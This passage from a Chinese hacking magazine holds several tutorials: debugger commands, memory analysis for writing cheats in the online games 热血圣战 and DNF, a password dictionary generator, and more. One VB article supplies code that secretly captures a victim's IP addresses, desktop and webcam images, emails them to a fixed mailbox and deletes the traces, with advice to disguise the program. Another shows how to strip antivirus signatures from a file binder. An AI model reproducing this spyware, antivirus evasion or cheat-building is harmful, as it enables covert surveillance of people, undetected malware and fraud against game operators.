后面的几个菜单用得比较少，这里留给读者自己研究。下面介绍右键菜单。

首先看寄存器窗口的右键菜单有哪些命令（图15）。选中寄存器 EBP 0007FFC0，右键选择“Show Code”，此时可看到反汇编窗口发生变化，显示出 0007FFC0 地址处的指令（图16）。继续在该位置点右键选择“Show Data”，此时数据窗口发生变化（图17）。堆栈窗口的右键菜单命令如图18所示，功能属性与 OD 中几乎相同。

主窗口的右键菜单命令如图19所示，其功能分别是：

- 插入/删除断点
- 激活/禁用断点
- 设置书签（效果如图20）
- 保存位置
- 执行到此处

希望读者自行摸索使用。

下面介绍一个命令行功能。SyserWin32Debugger 当前版本共支持 91 条命令行指令，这里主要列举一些常用指令，更多指令请使用 help 查看：

- `.`：定位当前 EIP 所指向的指令代码。
- `g addr`（addr 代表地址）：执行到 addr 所指的指令位置。
- `d addr`：在数据窗口显示当前地址的数据（图21、22）。
- `bpx addr`：在指定代码地址设置内存断点（图23、24）。
- `bd addr`：使指定地址断点无效。
- `be addr`：使指定地址断点生效。
- `bc addr`：删除指定位置断点。
- 其他指令可用 `help` 查看（图25）。

笔者感觉 SyserWin32Debugger 最大的特色在于其源码调试功能。这里笔者用 VC++ 编写一个简单程序进行演示。将 exe 程序载入之后，再载入符号文件（图26、27）。然后点击 SyserWin32Debugger 底部的源代码调试（图28），此时会来到图29所示代码位置。我们任选图30所示的一处菜单命令位置设置断点，然后运行程序，并在程序界面点击一个菜单命令（图31）；此时程序会中断下来（图32）。我们不仅可以在源代码文件里设置断点查看汇编程序状况，而且可以通过在反汇编程序中设置断点来查看源代码位置。当然，也可以通过点击源代码前面的“+”“-”来展开或关闭源代码中的反汇编模式（图33）。

SyserWin32Debugger 的功能并不逊色于 OD，更多功能还有待读者一一挖掘。

（文中涉及的相关软件在本期光盘已收录）

# 热血圣战外挂制作

沧海浮萍

近日研究游戏，拿《热血江湖》开刀。现在版本名字是《热血圣战》，本篇文章为大家介绍网络游戏辅助工具的编写以及游戏的基本分析方法。我们分析游戏采用的工具是 CE、OD。如果游戏进程被驱动保护，就需要采用驱动解除保护，这对编程水平要求较高。还好《热血圣战》这款游戏的进程没有被保护，我们就直接开刀。

打开游戏，输入账号密码后登录。在开始分析之前，最好到一个没有其他玩家、怪物不主动攻击、且自己能打得过的地方（图1）。然后打开内存分析工具 CE，点击图2所示按钮，找到游戏进程并点击确定（图3）。此时 CE 已载入游戏，后面开始搜索内存。

在搜索之前先确定搜索内容。由于网络游戏一般采用 C++ 开发，所以我们可以确定，游戏中的几乎任何一个事物都是一个类。比如人物作为一个类，这个类包含很多属性，如生命值、魔法、等级、持久力等。要彻底分析游戏，就要找到每个事物对应的类；找到类之后，就能找到对应属性。

首先先找人物自身的类。从哪里下手？当然是从数据开始。这里从生命值开始。开始时人物生命值是 175，那么先在内存里搜索 175。在搜索框填入 175，选择“精确数值”，不要勾选 HEX，因为我们搜索的是十进制，不是十六进制，然后点击“首次搜索”（图4）。一段时间后 CE 会搜出所有值为 175 的内存地址（图5）。

然后让人物在游戏里走几步、转几下，再回到 CE，选择“未改变的数值”（图6），点击“再次搜索”。此时数据会减少一些。然后找一个怪攻击我们，使血量减少（图7），再次搜索“减少的数值”，这时只剩下一个数据（图8）。随着人物血量回复，我们在 CE 中也能看到同步变化，因此可以确定：内存地址 02A34138 存放的是人物血量。

找到突破口后，下面用 OD 挂载游戏（图9）。OD 挂载成功后会将游戏暂停，我们点击运行让游戏继续，否则会退出游戏。接着来到刚才分析的 02A34138 地址。在 OD 命令行输入：

```text
dd 02A34138
```

这样就可以在数据窗口看到该地址附近数据（图10）。这里的数据采用十六进制显示，如果算不出来可用计算器换算。`AF` 对应十进制是 `10×16+15=175`，正是人物血量值。那其他数据是什么？我们打开人物属性进行对照（图11）。按进制转换可得到如下结果：

```text
02A34138 00000085  当前的血量值
02A3413C 00000076  当前的魔法值
02A34140 00000032  当前持久力比例
02A34144 000000AF  总血量值
02A34148 00000076  总魔法值
02A3414C 000003E8
...
02A34150 00000036  当前经验比例
02A34180 0000000B  攻击力
02A34184 00000009  防御
02A34188 00000003  命中
02A3418C 00000005  回避
```

当然有些数据不能一眼看出含义，这时就要通过打怪改变数据来观察。修改查看方式为：

```text
dc 02A34138
```

此时看到的是 ASCII 方式显示的数据（图12）。可以看到当前角色名称以及角色类型。再切回 `dd` 模式，我们可以基本确定 `02A340B8` 是人物属性基地址（图13）。双击左边地址 `02A340B8` 后，会按偏移量方式显示，这样就可以确定其他人物属性地址了。假设 `BASE=02A340B8`，那么人物当前血值为 `BASE+80`（图14）。基址机制的作用是便于外挂更新：每次游戏更新时，外挂需要更新，但相对偏移地址通常不变，所以找到基址即可，以后只需更改基址。

# 黑客编程

找到人物属性后，再找怪物属性。通常开发人员会用不同 ID 区分每个怪。每个怪也是一个对象，对象里包含各种属性，和人物属性类似。那怎么找怪对象？开始不太好下手，但有一点可确定：当我们选中某个怪时，肯定有数据变化；换一个怪时，该数据又变化；不选怪时，这个数据应为未知。

我们先不选怪，重新打开 CE，载入游戏，选择“未知的数值”（图15），点击首次搜索。此时会搜索出很多数据。然后在游戏里选中一个怪（如“野猫”），在 CE 中选择“已改变的数值”再次搜索；让人物走几步，选择“未改变的数值”再次搜索；再换一个怪（如“狐狸”），再次选择“已改变的数值”。以此类推不断筛选，最后只剩几个数据（图18）。

这几个数据相距很近，说明怪对象基本在这里。双击这些地址，CE 会将其放到下方列表（图19）。然后在这些地址上右键选择“16进制查看”（图20），显示结果如图21。接着在游戏里选中一只狐狸，此时地址数据变化，变化值都是 `1252`（十六进制）；再选一只野猫，数据变成 `1240`；杀死该猫后，数据变为 `FFFF`。这说明地址 `1B4710B4` 里存放的是人物当前所选怪的 ID 号；在未选怪或怪已死亡时，数据变为 `FFFF`。

| 地址 | 数值 |
|---|---|
| 1B4710B1 | 132989 |
| 1B4710B2 | 307184808 |
| 1B4710B3 | 1199940 |
| 1B4710B4 | 4687 |

| 锁定 | 描述说明 | 内存地址 | 数据类型 | 数据值 |
|---|---|---|---|---|
| □ | 无说明 | 1B4710B4 | 4字节 | 65535 |
| □ | 无说明 | 1B4710B3 | 4字节 | 16777028 |
| □ | 无说明 | 1B4710B2 | 4字节 | 4294919336 |
| □ | 无说明 | 1B4710B1 | 4字节 | 4282689592 |

| 锁定 | 描述说明 | 内存地址 | 数据类型 | 数据值 |
|---|---|---|---|---|
| □ | 无说明 | 1B4710B4 | 4字节 | 0x0000FFFF |
| □ | 无说明 | 1B4710B3 | 4字节 | 0x0000FF44 |
| □ | 无说明 | 1B4710B2 | 4字节 | 0xFFFF444B |
| □ | 无说明 | 1B4710B1 | 4字节 | 0xFF44AB3B |

下面用 OD 附加游戏，看看这些数据是什么作用。OD 附加后，在命令栏输入：

```text
dd 1B4710B4
dc 1B4710B4
```

`dd` 显示如图22；换成 ASCII 模式 `dc` 后全是乱码（图23），看不到有用信息，可能这只是人物临时使用的数据。

我们将游戏从 OD 卸载，再用 CE 附加。找到该地址后右键选择“寻找所有操作这个地址的代码”（图24）。然后在游戏里选中一只怪，CE 会记录下对应代码（图25）。记录以下几个地址：

- 00475043
- 004751D5
- 004752F6

在 CE 显示的汇编中可以注意到：这些操作地址都是 `eax/ebx+05AC`，这说明这里的 `ebx` 就是操作“选怪”的基址，而 `05AC` 偏移里存放的是当前怪的 ID。关闭 CE，用 OD 附加程序，来到 `00475043` 处，部分代码如下：

```text
00475043
004751D5
004752F6
...
[eax/ebx+05AC]
```

# 黑客编程


地址的数据，如果不加 `[]` 的话，我们看到的是 `3E6ECE0 + 4*1252` 指向的那个地址。我们选择“文本”`ASCII(64)`，结果如图26所示。我们在这里可以看到“野猫”这个怪的名称了。

那按照上面的分析，这里就应该是怪的对象基址了。我们仍然按照 `BASE+偏移` 的方式来表示。经过分析可以发现：`[eax*4+03E6ECE0]` 对象属性基址（eax=1246、1247、1248、1249、124A，其实这个数组偏移就是怪的ID号）。

- `+4` 类型，比如说2就是怪物，其他的可能是玩家
- `+C` 数组的下标偏移，如图27所示
- `+320` 怪的名字

通过修改 `eax` 的数值，我们就可以取得不同的怪。这里注意一下，这里显示的是人物附近的怪，不见得是不能显示的。

好了，到这里为止，这个游戏两大属性我们已经分析完了。下面要做的就是找到攻击怪的代码位置，以及自动喝药、自动寻路等了。限于篇幅，作者这里就不继续写了，感兴趣的读者可以尝试自己分析，着重攻击怪的代码，然后写外挂。


我们在这里下个断点，看看 ebx 的数值到底是多少。下好断点之后，在游戏里面选择一只怪，这时游戏中断了下来，ebx 数值为 `1B46F658`；`004751E2` 地址处处理的数据包含这样一个类型 `[eax*4+3E6ECE0]`。

在内存中，对于数组的访问就是采用这种模式，而所有的怪的对象一般也放在一个大的数组里。找到数组的开始位置，再找到某一个怪在数组中的偏移，就找到了怪的内存地址，这个地址一个偏移就是这个怪的ID号。

为了验证我们的想法是否正确，我们来测试一下。通过上面的数据我们基本可以确定数组的基址是 `3E6ECE0`，我们在上面测试的时候一个怪的ID是1252，那我们就输入 `dd [3E6ECE0+4*1252]`，这样我们看到的是这个地址指向的地址数据。

## 用VB制作信息搜索器

时间过得真快，一转眼小菜我已经跨过高考这道坎，迈进了大学。新的环境，新的同学，不由得有许多陌生。当然，不变的是依然可以买到X档案。貌似VB的文章越来越少见了？好吧，我来贡献一个吧。

不知道各位有没有碰到家里亲戚离家出走的状况。我弟弟迷上了CF，老是离家，通宵不归。全是网吧太多了，实在是没办法一个个找。没办法，我只好自己动手，做个信息搜索器定位啦！

当然，这个程序也可以得到其他信息。

## 一、确定思路

既然想知道在哪上网，首先就得抓取IP地址，而且得到内网IP和外网IP就能定位到机器了。我们这边内网是192.168.1.XXX模式的，其中192.168.1.1一般是分配给路由器的，网吧里真正的1号机器IP一般是192.168.1.2，依此类推。得到IP后最好能抓个桌面截图和摄像头截图，原因是现在的网吧一般都会在桌面写上网吧名称，更好查找。如图1、图2。至于摄像头截图则是为了看看情况。当然，除了这些功能还可以加上其他的……这个程序除了可以找人，还可以获取到敏感信息，比如桌面上聊天记录、摄像头对面是什么人。


## 二、操刀上阵

首先打开VB，新建一个标准工程文件。界面大家随意写，我把抓取IP和抓图以及发送一起放在开头，即只要运行程序就先进行这些动作，然后才会进入到界面。这个期间会有5秒左右延迟，如果大家觉得不方便，可以使用 `Form1.Show` 指令显示窗体。建立2个窗体，分别是 Form1 和 Form2，从 Form2 启动程序，如图3。在窗体上建立 Picture 控件和 Timer 控件，作用是用于抓取桌面截图……Timer1 的 Interval 属性为1000，即为1秒，Enable 属性为 True。建立模块用于截图，代码也请在光盘看。


Timer1 代码如下：

```vb
rec = PictureBoxSaveJPG(Picture1.Picture, Replace(App.Path & "\" & "desktop" & ".jpg", "\", "\"))  '保存压缩后的图片
```

我设定的是直接放在相对路径下，大家可以修改路径。只要注意发送的时候路径不错就行。至此窗体2的代码已经搞定，下面就是获取IP和摄像头截图以及发送了。打开 Form1，建立3个 Text 控件，建立1个 Picture 控件……凑合下，2个 Timer 控件，如图4。并建立2个模块，一个用于取得外网IP，一个用于发信。开始编写代码：

```vb
Private Sub Form_Load()

Form1.Show   '显示窗体

Text1.Text = GetOutIP()   '文本框1得到外网IP（外网模块）

Text2.Text = LocalIPAddress()   '文本框2为内网IP

Text3.Text = App.Path & "\"   '文本框3取得相对路径，准备存放摄像头图片

'打开摄像头
Dim xMax As Integer, xMon As Integer
...
```

```vb
CapHwnd = capCreateCaptureWindow("WebcamCapture", 0, 0, 0, 640, 480, Me.hwnd, 0)

DoEvents

SendMessage CapHwnd, CONNECT, 0, 0

Timer2.Enabled = True

End Sub

Private Sub Timer2_Timer()

On Error Resume Next

SendMessage CapHwnd, GET_FRAME, 0, 0

SendMessage CapHwnd, COPY, 0, 0

Picture2.Picture = Clipboard.GetData

Clipboard.Clear

Dim sFileName As String

sFileName = "people"   '取得的照片名称

SaveJPG Picture2, Text3.Text & "\" & sFileName & ".jpg", 80   '存放照片

Timer2.Enabled = False

Timer1.Enabled = True   '开始发信

End Sub

Sub sendmail()

On Error Resume Next

namespace = "http://schemas.microsoft.com/cdo/configuration/"

Set Email = CreateObject("CDO.message")

Email.From = "648110318@qq.com"   '发件人邮箱
```

```vb
Email.To = "5387791@qq.com"   '收件人邮箱

Email.Subject = "定位咯--哈哈"   '邮件名称

a = App.Path & "\desktop.jpg"   '附件路径

b = App.Path & "\people.jpg"   '附件路径

Email.TextBody = "公网IP:" & Form1.Text1.Text & "  内网IP:" & Form1.Text2.Text

Email.AddAttachment a   '添加附件A

Email.AddAttachment b

With Email.Configuration.Fields
    .Item(namespace & "sendusing") = 2
    .Item(namespace & "smtpserver") = "smtp.qq.com"
    .Item(namespace & "smtpserverport") = 25
    .Item(namespace & "smtpauthenticate") = 1
    .Item(namespace & "sendusername") = "XXXXXX"   '发件人用户名
    .Item(namespace & "sendpassword") = "XXXXXXXXXXXX"   '发件人密码
    .Update
End With

Email.Send

Set Email = Nothing   '发信成功处理事件

Kill App.Path & "\desktop.jpg"
Kill App.Path & "\people.jpg"   '删除监听获得的

End Sub
```


图4


图5

……告诉他怎么使用，这样他每次开外挂我就知道他在哪了。如图5。内网IP：192.168.1.15 表示他在14号机器，这样就可以轻易得到信息了……如果发给别人，大家把程序做下伪装就行了，如图6。文章就写到这里。


图6

如果大家有什么问题可以发我邮箱：53877910@QQ.com。多多交流，技术才能进步。另外各位高三的叉子加油啊！大学真的很好！

（文章中涉及的相关源码本期光盘已收录）

到此基本代码编写完成，各位叉子调试的时候记得填上正确的邮箱信息，否则发信失败啊！最后要做的就是程序伪装了……

## VC++源码免杀实例

沧海浮萍

今天找到了教主的一个捆绑机程序源代码，编译成功之后发现金山毒霸立刻将其杀死了……这里就用这个程序为大家介绍下 VC++ 源码免杀的技巧。这里使用的杀毒软件是金山毒霸2012猎豹，病毒库版本号为9.15。

首先我们用 myccl 对文件进行定位……myccl 处理结果如下所示：


```text
tor\桌面\文章\vc++源码免杀实例代码\捆绑机代码\Release\BindFile.exe

特征码(物理地址/物理长度)如下：
[特征1] 00004E58,000000A2

特征码分布示意图：
[------------------------------]
[------------------------------]
[-----------MN-----------------]
[------------------------------]
```

下面我们对该处的特征码进行符合特征码定位，定位结果如图1所示。我们记录下这些特征值如下：

- [特征] 00004F88_00000002
- [特征] 00004F94_00000002
- [特征] 00004F98_00000002
- [特征] 00004F9C_00000002
- [特征] 00004FA8_00000002
- [特征] 00004FAC_00000002
- [特征] 00004FB0_00000002
- [特征] 00004FBC_00000002
- [特征] 00004FC0_00000002
- [特征] 00004FC4_00000002

00004F88 对应的内存地址为 00404F88。然后我们需要通过 map 文件进行源代码定位。map 文件的生成需要对工程进行配置，具体的配置方法在互联网有很多了，希望大家自己查一下。我们打开 map 文件，查找距离 00404F88 最近的地址位置，如图3所示，特征位于 `FC42:MFCA42.DLL` 中，这显然不可能。我们再来看上一代码：`_messageEntries@CHyperLink@@0QBUAFX_MSGMAP_ENTRY@@B`，这里都与超链接相关，所以我们可以确定特征码位于超链接相关的位置。我们到源代码中找到所有与超链接有关的代码，如图4、图5所示。我们将这儿代码删掉，重新编译程序，再次扫描，扫描结果如图6所示，没有报警。到此为止我们这次免杀就圆满结束了。这里主要凭借对数据的分析，如果遇到不确定的状况，我们需要将程序载入到 OD 中再进行详细的分析，从而确定具体的代码位置。当然我们使用 Syser-Win32 Debugger 进行定位也是非常方便的，感兴趣的读者可以进行一下尝试。


特征码分布示意图：

```text
[------------------------------]
[------------------------------]
[------------------------------]
[----MM------------------------]
[------------------------------]
```

通过特征码分布示意图我们可以确定这几处的特征是连续的，我们用 OC 进行地址转换，转换结果如图2所示。

# 编程零起步之两行源码实现加密配置关

晓草

话说，这年头啊，学电脑不学点基础的东西，光会用点程序，一到要理解原理就晕是肯定不行的。这所谓的基础呢，我想编程应该算是一个吧。无奈，我们的英语学得又有点委婉。于是乎，网上便流行起了易语言编程。最近小菜我就忙学这个，感觉还不错，特来分享。好吧，废话多了点。（OK！上菜）。


首先讲一下今天要学的主要内容吧：① 读写配置项；② 数据加解密；③ 数据类型的转换。以及在讲解过程中穿插一些补充知识（其实全文补充知识占的篇幅更多，嘿嘿~~）。


本节课围绕一个编程实例来讲解。首先我们看软件，如图1。当在两个编辑框上输入文本后，点击“写配置项”，在软件运行根目录下会生成一个文件名为“配置.ini”的文件；打开会发现有些文字是乱码。当重启软件，点下“读配置项”，两个文本框便会出现刚才写的文本了，如图2。这个配置信息读写的技术可用于记录软件运行位置等。

现在我们就来把这个软件编写出来。新建一个Windows窗口程序，将两个标签、两个编辑框及两个按钮摆好。标签标题改为“配置1、配置2”，按钮标题改为“读配置项”“写配置项”，然后开始写源码。

会比平时写的软件爽一点了，比如按钮变圆润了，编辑框颜色有点变了。其实这个也很好实现：双击“启动窗口”，写下命令“XP风格(1)”，如图3。括号内为色调序号：0无风格，1蓝色，2绿色，3银色。

写好程序风格命令后，我们来看程序主要源码。会发现软件生成的“配置.ini”里是有乱码的，这说明配置1和配置2被加密过。可用加密命令“加密数据(,,)”：第一个逗号前是要加密内容，中间是密码文本，最后是算法序号（1为DES，2为另一算法）。例如：`加密数据(到字节集(编辑框1.内容), "123", 1)`。

| 子程序名 | 返回值类型 | 公开 | 备注 |
|---|---|---|---|
| _启动窗口_创建完毕 |  |  |  |
| XP风格(1) |  |  |  |

那我们要怎么把这个加密过的数据放在程序运行根目录的 ini 文件里呢？这就要用到“写配置项(,,,)”。第一个逗号前写配置文件名，后面写节名称、配置项名称，最后写入值。可写成“取运行目录()+`\配置.ini`”的形式，在运行目录下新建并写入“配置.ini”。

```text
写配置项（取运行目录()+"\配置.ini", "配置", "配置1", 加密数据(到字节集(编辑框1.内容), "123", 1)）
写配置项（取运行目录()+"\配置.ini", "配置", "配置2", ...）
```


```text
解密数据(到字节集(读配置项(取运行目录()+"\配置.ini", "配置", "配置1", "")), "123", 1)
……
```


然后便是解密读配置项了（读完上面的，下面就简单了），所以就不过多解释了。我们只要将加密过的文本进行解密，然后赋值给编辑框1就可以了。其中解密的命令如图5。需要注意的是它的密码文本和加密算法必须和加密的那个命令一样。看解密读配置项的源码，如图6。

好了，写完源码是不是会发现只有两行呢？很简单吧！静态编译一下就可以了。小结：就是文章第二段的内容哦。我会把程序和源码打包给大家，供大家学习参考。最后祝：X友好好学习，天天向上（老土的祝词~~）。


# 打造自己的字典生成器

沧海浮萍

本篇文章中笔者将同大家一起打造一款属于自己的字典生成器，采用的编程平台为 VC++6.0。由于本文涉及到的属于编程类的东西，没有什么技巧可寻，大家只能加强编程功底。

在正式编码之前，我们先来分析一下我们的程序应该具有的功能。既然是字典生成器，那就必定涉及到字典数据的类型问题。一般情况下，我们的字典数据包含以下几种类型的数据：大小写字母、数字、特殊符号。那么我们在编写程序的时候，就需要按照情况来设定我们生成字典的类型。

我们开始按照上面的分析编写代码，创建 MFC 应用程序。我们在界面先放置4个复选按钮，分别用来指定字典的类型为大写字母、小写字母、数字、特殊符号。其 ID 分别对应 `IDC_CHECK_BIG`、`IDC_CHECK_SMALL`、`IDC_CHECK_NUM`、`IDC_CHECK_ESP`；对应的对象分别是 `m_ch_big`、`m_ch_small`、`m_ch_num`、`m_ch_esp`，对象类型为 BOOL。然后再放置一个编辑框，用来设定密码的上限长度。编辑框 ID `IDC_EDIT_LENGB`，对应的对象为 `m_edit_len`，类型为控件。再放置两个按钮，分别作为“开始”与“停止”，ID 分别为 `IDC_BUTTON_START`、`IDC_BUTTON_END`，对应的对象分别为 `m_btn_start`、`m_btn_end`，类型为按钮。界面效果如图1所示。

由于我们运行程序的时候程序并没有开始工作，所以开始时“停止”按钮应为不可用状态。我们在 `OnInitDialog()` 函数中添加 `m_btn_end.EnableWindow(FALSE);` 这句代码，这样“停止”按钮就是灰色的了。当程序开始工作时，这两个按钮对应进行灰白变化转换，分别在开始、停止按钮对应的函数中添加如下所示的代码：

```cpp
void CDZDlg::OnButtonStart()
{
    m_btn_start.EnableWindow(FALSE);
    m_btn_end.EnableWindow(TRUE);
}

void CDZDlg::OnButtonEnd()
{
    m_btn_start.EnableWindow(TRUE);
    m_btn_end.EnableWindow(FALSE);
}
```

我们来测试一下代码，进行按钮点击切换，效果如图2所示。我们在点击开始按钮的时候需要获取用户选择的字典数据类型，这里需要用到一个函数 `UpdateData(TRUE)`。

> 小知识：  
> `UpdateData(TRUE)` —— 刷新控件的值到对应的变量。即：控件的值 -> 变量。  
> `UpdateData(FALSE)` —— 拷贝变量值到控件显示。


这里我们设定的控件关联变量类型为 BOOL 类型，所以在我们点击开始按钮的时候需要从控件获取数据，需要使用 `UpdateData(TRUE)`。然后我们就需要获取编辑框中用户输入的密码长度。这里我们限定密码的长度不能为0，同时长…度不能大于20，代码如下：

```cpp
CString str;
int len=0;
str.Empty();
m_edit_len.GetWindowText(str);
len=atoi(str);
if (len<=0||len>20)
{
    MessageBoxA("密码长度不能为0，长度不能大于20位");
    m_edit_len.Clear();
    return;
}
```

其中字典类型还包括：

- 6 大写字母+小写字母+数字+特殊符号
- 7 大写字母+小写字母+特殊符号
- 8 数字+特殊符号
- 9 小写字母+数字+特殊符号
- 10 大写字母+数字+特殊符号
- 11 特殊符号
- 12 小写字母+特殊符号
- 13 大写字母+特殊符号
- 14 小写字母
- 15 大写字母

这里笔者已经将字典生成的核心代码封装成了dll库，用户只需要调用里面的接口即可，接口为 makedic(int length,int type)，第一个参数表示字典数据长度上限，第二参数表示字典类型，类型如上，调用代码如下所示：


图2

基本的条件处理完毕之后，我们就需要开始字典的生成了。鉴于篇幅的原因，这里笔者就以纯数字、字母、特殊符号的字典为例子，其他的模式请用户自己完成。我们在生成字典的时候也用到了一个新的线程以及一个结构体，线程以及结构体声明如下：

```cpp
DWORD WINAPI dic(LPVOID param);

struct para
{
    int length;
    int type;
};
para dicinfo;
```

其中结构体中的 length 表示字典最大长度；type 用来表示字典的类型，总共15类：

- 1 纯数字
- 2 数字+小写字母
- 3 数字+大写字母
- 4 大写字母+小写字母
- 5 大写字母+小写字母+数字

```cpp
DWORD WINAPI dic(LPVOID param)
{
    typedef BOOL(*lpMakedic)(int,int);
    CDzDlg *dlg=(CDzDlg*)AfxGetApp()->GetMainWnd();
    para *pa=(para*)param;
    HINSTANCE hdl1;
    lpMakedic maked;
    hdl1=LoadLibrary(".\\dic.dll");
    if (hdl1)
    {
        maked=(lpMakedic)GetProcAddress(hdl1,"makedic");
        BOOL res;
        res=maked(pa->length,pa->type);
    }
    FreeLibrary(hdl1);
    dlg->m_btn_start.EnableWindow(TRUE);
    dlg->m_btn_end.EnableWindow(FALSE);
    AfxMessageBox("生成完毕!");
    return 0;
}
```

本文中可以生成字典类别为单纯的四类字典数据，其他的混合字典数据用户可以根据笔者给出的接口进行自己搭配。注意不要生成长度太大的字典，否则文件会非常大。在后面笔者会加上文件分割以及字典体积计算的功能。dll动态库以及mfc源程序已经为大家打包了，感兴趣的读者可以自己修改。字典会在程序所在的目录下生成，名字为“chfp...”。


“dic”，dll库名为 dic.dll，使用时注意将该dll库放置在应用程序同目录，如图3所示。字典内容如图4所示。（文中涉及的相关代码本期光盘已收录）

## 告别DNF，流星般绚烂

千心亭  乱心

## 前言

如题，从公测时玩的DNF号，投资不下千元，史诗神器什么的，对我来说就和新手白装一样普遍。万恶的TX，仅因为一句“游戏数据异常”就把我号封了一年之久，我顿时无语，王八之气外露，算了，都是浮云，不过玩游戏的心情倒是没减，最后对着曾经的DNF战友很潇洒地说了一句：“DNF，哥还会回来的！”

没过一会，我打开了，徒弟发来高兴的表情：“师父，你上线了！”“好了可以开始了！”“等等，师父，这不像你风格啊，AV的事？”“哈哈，徒弟，我有种子搜索器！”“万恶的师父，可以共享吗？”“不能！”“那我自己找！”“别，别，我给你发，早知道就不让你发木马了，用QQ的远控好了！”“那个太卡了，快点开始吧！”“嗯！”

# 都是寂寞惹的祸

一天无事，在家和MM探讨人生，突然，无尽的窗口抖动向我袭来，QQ一卡，掉了！擦，谁，是谁？于是我隐身上QQ，徒弟小菜向我发来求救，“师父，找你有事。”我刚想退QQ，就看徒弟发来的一句：“师父，如果你说在的话，我就把我珍藏多年的AV都发给你。”“真的？”说实在的，对一个宅男来说，这无疑是很有诱惑性的，啊，糟了！“师父，当然是假的了！”“靠，找我干嘛？”徒弟发来个高兴的表情，说：“我弄到DNF体验服的号了！”“哦”“无限疲劳，高倍经验，还有点卷享受！”“哦”“体验服不会掉线吧？”大家玩DNF就要有掉线的觉悟，不过体验服好像是没有检测吧！“不会”我说。“那师父，给我发个挂呗！”“自己下去”“可是，找不着”徒弟发来求救的表情。“世界之大无奇不有；有网络就有网络工程师，同样，有游戏就有利用游戏漏洞的人，来达到作弊的目的”“这些我都知道，师父你想说什么呢？”“我们不能做游戏；但做个外挂也不是不可以。”“师父，你是说做一个外挂？很难的；徒弟我笨笨的！”“没事，学过汉语吧！”“师父，我是中国人！”“会用电脑不？”“师父，我还是个菜鸟黑客，你总是叫我脚本小子！”“那你给我发个远控木马，我做给你看”不一会，我收到了徒弟的“木马”，说实在的，都没过免杀，我打开了……

# 一、准备工作

- 1. 去百度搜一下“易语言”，易语言是“第一个中国人自己打造的编程语言”，优点很多，其中“全中文支持，无需跨越英语门槛”就是说只要你学过汉语，你就可以编程。由于是收费的软件，大家可以去下载破解版，我用的是“易语言5.0版”。
- 2. 超级模块 Super_EC，汇编模块，要最新的，这里用的是“超级模块Super-EC4.6版”，这些都是易语言模块。下面是百度百科：“现在大型软件项目的实施一般是分工协作开发，为了支持这一点，易语言提供了模块化开发支持。易语言中的模块称为易模块。通过使用易模块，用户可以将常用的代码封装起来重复使用到其它程序；或提供给第三方使用；或用作开发大型软件项目中的某个部分，然后在软件项目的封装阶段将所有这些模块组织编译成为一个完整程序。同时易语言支持大量非官方扩展模块，超级模块让编程更简单化。”
- 3. 这里用到的是XP系统，几核没关系，主机、显示器、键盘、鼠标，帅哥一名，美女若干，扯远了。大家最好去学一下“易语言”，这个软件上手简单，我学过C++，再学这个，就是几分钟的事。

第一步 偏移查找（用到DNF偏移查找工具，偏移的用法后文会说）

# 黑客编程

## 1. 装备偏移查找

以鞋子为例子，穿上鞋子，查找方式为“模糊查找+0的值”，如图1。


点首次查找，可能有很多的值，感觉差不多了大概搜索到4FFF的时候按暂停，如图2。

再脱掉鞋子，查找方式为“精确的值”，值填入0，如图3。


点再次查找，如图4。得到一个偏移 1E4C，这个就是鞋子的偏移了。我们可以穿上鞋子，然后把基址+偏移，复制到最上面的查看，如图5。记录下值，脱下鞋子，勾选前面的勾选框用来修改（必须勾选修改才会生效），在=号后面填入刚才记录的值点修改，如图6。


是不是就多出一个鞋子了。

## 2. 二级偏移查找

比如我们找鞋子的二级偏移，比如鞋子的等级，有两种方法：

第1种方法：勾选双偏移查找，基址填入人物基址，勾选自动2级基址查找，值填入鞋子等级，如图7。


点击首次查找，这个是比较慢的办法，大家要等一会（只是告诉大家2级查找的用途，后面会告诉大家详细的用法），如图8。

得到一个双偏移 1E4C+8，这个就是鞋子等级的二级偏移了。现在实验下看看对不对，在最上面的查看修改填入基址+1级偏移+2级偏移，如图9。


图8

在=号后面填入你想修改的值，比如填入100。我们再看看鞋子的等级，如图10。看到没有，变成100了，这个就说明这个二级偏移是正确的。

第2种方法：用我们前面找到的鞋子偏移 010CF69C+1E4C，在最上面的基址填入这个，不要勾选双偏移，在值填入鞋子等级，如图11。点击首次，得到一个值，如图12。


图9


图10


图12

这个8就是鞋子的2级偏移，上面我们已经证实过了。图13。

3. 武器偏移的查找，方法也是2种：

第1种方法：穿上武器，填入基址，查找模式选“模糊查找≠0的值”，如图14。


图13


图11


图14

再脱掉武器，查找模式选“变化的数值”，点击再次查找，如图15。

值比较多的话就重复几次脱穿，再次查找，如图16。


这个1E38就是武器的偏移了。

第2种方法：勾选双偏移，但是不勾选自动二级偏移，手动填入8。这个8我们在上面知道是装备的等级偏移，查找模式为“精确的值”，值填入武器等级，如图17。

点击首次查找，一般值就一个，如图18。


得到了1E38+8，那么前面的1E38就是武器的偏移了。

4. 装备的其他属性也可以用模糊+变化的值查找。一些本来就是值的，比如价格，你就可以先模糊，再找个比较便宜的装备穿上，再查找变小的；再穿上贵的，再查找变大的，如此就能找到价格的偏移了。

## 二、基址的查找（用到DNF基址查找工具，基址的用法后文会说）

- 1. 人物基址的查找

搜索字节集 {0,0,0,0,255,255,255,255,0,0,1,0,0,0,0}（OD特征码转换的），如图19。


搜索出5个十进制地址，点击第一个，在右下角属性中，保存区域基址后括号里的数值，如图20，其余4个地址同上保存，如图21。


点击初始按钮，搜索整数集，将5个数分别搜索，有加号的为人物基址，如图22，“01240E7C”就是人物基址了。


- 2. 搜索加密参数

搜索字节集 {86,87,139,249,139,7}（OD特征码转换的），右键点击搜索出来的基址（004开头的）选择内存编辑器，如图23。

点击内存编辑器的汇编指令往下翻，加密参数出来了，如图24。“01404470”是加密参数1；“01404474”是加密参数2。

- 3. 其他的基址也可以找到，基址太多就不一一列举了，思路，重要的是思路。


## 三、制作DLL文件（用到偏移和基址，大家不会做的可以下“基址发布器2.8正式版”，晴空社区的作品，基址更新得很快）

我们要了解DNF外挂实现的原理，大家知道DLL文件的作用吗？下面是百度百科的资料：“动态链接库英文为DLL，是Dynamic Link Library的缩写形式，DLL是一个包含可由多个程序同时使用的代码和数据的库；DLL不是可执行文件。动态链接提供了一种方法，使进程可以调用不属于其可执行代码的函数。函数的可执行代码位于一个DLL中，该DLL包含一个或多个已被编译、链接并与使用它们的进程分开存储的函数。DLL还帮助共享数据和资源。多个应用程序可同时访问内存中单个DLL副本的内容。DLL是一个包含可由多个程序同时使用的代码和数据的库。”DLL文件和EXE文件的区别说白了就是，EXE是可以单独运行的程序，DLL是不能单独运行，一般是由EXE程序来调用DLL的函数。

